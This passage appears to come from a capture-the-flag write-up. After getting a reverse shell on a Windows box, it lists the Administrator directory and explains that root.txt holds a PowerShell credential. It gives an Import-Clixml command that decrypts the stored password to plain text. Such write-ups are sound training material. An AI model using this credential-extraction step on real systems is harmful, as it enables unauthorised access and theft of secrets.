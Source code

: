 ![Reverse Shell](./images/reverse-shell.png)

As you can see we have got a Powershell session on the box, so let's take a look and see if we can read any of the flags of the system.

```powershell
PS C:\Data\Users\Administrator> ls

ls


    Directory: C:\Data\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         7/3/2020  11:23 PM                3D Objects
d-r---         7/3/2020  11:23 PM                Documents
d-r---         7/3/2020  11:23 PM                Downloads
d-----         7/3/2020  11:23 PM                Favorites
d-r---         7/3/2020  11:23 PM                Music
d-r---         7/3/2020  11:23 PM                Pictures
d-r---         7/3/2020  11:23 PM                Videos
-ar---         7/4/2020   9:48 PM           1958 root.txt
```

Having a look at the `root.txt` file we get presented with the following XML. This is a PowerShell credential, meaning that the password is encrypted with the password of the user that created this credential file. It means that we need to find the credentials for the user and admin account. This way we can pivot into these accounts and use `$credential = Import-Clixml -Path C:\Data\Users\Administrator\root.txt;$credential.GetNetworkCredential().Password"` to read the flags as plain text.
